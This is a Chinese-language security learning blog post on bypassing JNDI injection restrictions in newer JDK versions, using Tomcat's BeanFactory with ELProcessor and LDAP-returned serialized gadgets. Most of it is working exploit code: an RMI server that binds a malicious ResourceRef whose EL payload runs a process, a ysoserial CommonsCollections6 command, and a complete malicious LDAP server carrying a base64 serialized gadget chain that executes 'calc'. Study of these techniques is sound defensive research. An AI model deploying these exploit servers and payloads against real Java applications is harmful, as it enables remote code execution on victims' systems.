

# [Java安全]绕过高版本JDK的JNDI注入学习

## 基本方法

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。

## 利用本地Class作为Reference Factory

之前了解JNDI的时候知道恶意代码要么写在static,无参构造器或者`getObjectInstance`方法中。

在之前的基础上就知道了，如果要利用本地class作为Reference Factory，必须满足这三个条件：

1. 实现了`javax.naming.spi.ObjectFactory`接口。
2. 存在`getObjectInstance()`方法。

`org.apache.naming.factory.BeanFactory`可以利用。


```java

    /**
     * Create a new Bean instance.
     *
     * @param obj The reference object describing the Bean
     */
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?,?> environment)
        throws NamingException {

        if (obj instanceof ResourceRef) {

            try {

                Reference ref = (Reference) obj;
                String beanClassName = ref.getClassName();
                Class<?> beanClass = null;
                ClassLoader tcl =
                    Thread.currentThread().getContextClassLoader();
                if (tcl != null) {
                    try {
                        beanClass = tcl.loadClass(beanClassName);
                    } catch(ClassNotFoundException e) {
                    }
                } else {
                    try {
                        beanClass = Class.forName(beanClassName);
                    } catch(ClassNotFoundException e) {
                        e.printStackTrace();
                    }
                }
                if (beanClass == null) {
                    throw new NamingException
                        ("Class not found: " + beanClassName);
                }

                BeanInfo bi = Introspector.getBeanInfo(beanClass);
                PropertyDescriptor[] pda = bi.getPropertyDescriptors();

                Object bean = beanClass.newInstance();

                /* Look for properties with explicitly configured setter */
                RefAddr ra = ref.get("forceString");
                Map<String, Method> forced = new HashMap<>();
                String value;

                if (ra != null) {
                    value = (String)ra.getContent();
                    Class<?> paramTypes[] = new Class[1];
                    paramTypes[0] = String.class;
                    String setterName;
                    int index;

                    /* Items are given as comma separated list */
                    for (String param: value.split(",")) {
                        param = param.trim();
                        /* A single item can either be of the form name=method
                         * or just a property name (and we will use a standard
                         * setter) */
                        index = param.indexOf('=');
                        if (index >= 0) {
                            setterName = param.substring(index + 1).trim();
                            param = param.substring(0, index).trim();
                        } else {
                            setterName = "set" +
                                         param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                                         param.substring(1);
                        }
                        try {
                            forced.put(param,
                                       beanClass.getMethod(setterName, paramTypes));
                        } catch (NoSuchMethodException|SecurityException ex) {
                            throw new NamingException
                                ("Forced String setter " + setterName +
                                 " not found for property " + param);
                        }
                    }
                }

                Enumeration<RefAddr> e = ref.getAll();

                while (e.hasMoreElements()) {

                    ra = e.nextElement();
                    String propName = ra.getType();

                    if (propName.equals(Constants.FACTORY) ||
                        propName.equals("scope") || propName.equals("auth") ||
                        propName.equals("forceString") ||
                        propName.equals("singleton")) {
                        continue;
                    }

                    value = (String)ra.getContent();

                    Object[] valueArray = new Object[1];

                    /* Shortcut for properties with explicitly configured setter */
                    Method method = forced.get(propName);
                    if (method != null) {
                        valueArray[0] = value;
                        try {
                            method.invoke(bean, valueArray);
```

简单来说就是实例化Bean class然后调用1个setter方法，重点是这些：

```java
Object bean = beanClass.newInstance();

method.invoke(bean, valueArray);
```

实际上并不一定是setter，可以使某个函数为setter，只不过要调用的函数必须是参数为1个String的：

```java
paramTypes[0] = String.class;
```


利用`javax.el.ELProcessor`来rce即可。`ELProcessor`的eval方法会对EL表达式求值，实现RCE。不过前提是tomcat8，因为tomcat7中没有`ELProcessor`。

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception{
        System.setProperty("java.rmi.server.hostname","127.0.0.1");
        Registry registry = LocateRegistry.createRegistry(39654);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "feng=eval"));
        ref.add(new StringRefAddr("feng", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Exploit", referenceWrapper);
    }
}

```

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class MyTest {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://127.0.0.1:39654/Exploit";
        Context context = new InitialContext();
        context.lookup(url);
    }
}
```


具体的分析就不提了，到`getObjectInstance`下个断点跟一下就很清晰了。

## 利用LDAP返回序列化数据，触发本地Gadget

此种方式利用的是受害机本地存在的Gadget。

> 简而言之，LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化

```java
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
      Attribute var1;
      if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
        ClassLoader var3 = helper.getURLClassLoader(var2);
```

`JAVA_ATTRIBUTES[1]`即`javaSerializedData`。因此可以通过修改ldap服务直接返回javaSerializedData参数的数据（序列化gadget数据），达到反序列化RCE。


产生cc6的payload（假设受害者那里存在cc漏洞）：

```shell
java -jar ysoserial.jar CommonsCollections6 'calc'|base64 -w 0
```


启动Ldap Server：

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Base64;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:39876/#Evil";
        int port = 39654;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            //低版本JDK
/*            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());*/

            //高版本JDK
            e.addAttribute("javaSerializedData", Base64.getDecoder().decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg="));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```


```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class MyTest {
    public static void main(String[] args) throws NamingException {
        String url = "ldap://127.0.0.1:39654/Exploit";
        Context context = new InitialContext();
        context.lookup(url);
    }
}

```



## 关于方法1的补充

具体参考浅蓝师傅的https://tttang.com/archive/1405/

里面提到了除了`javax.el.ELProcessor#eval`之外很多种利用，以后遇到了EL打不了的可以拿这篇文章中的姿势来试。

## 参考文章

https://paper.seebug.org/942/

https://tttang.com/archive/1405/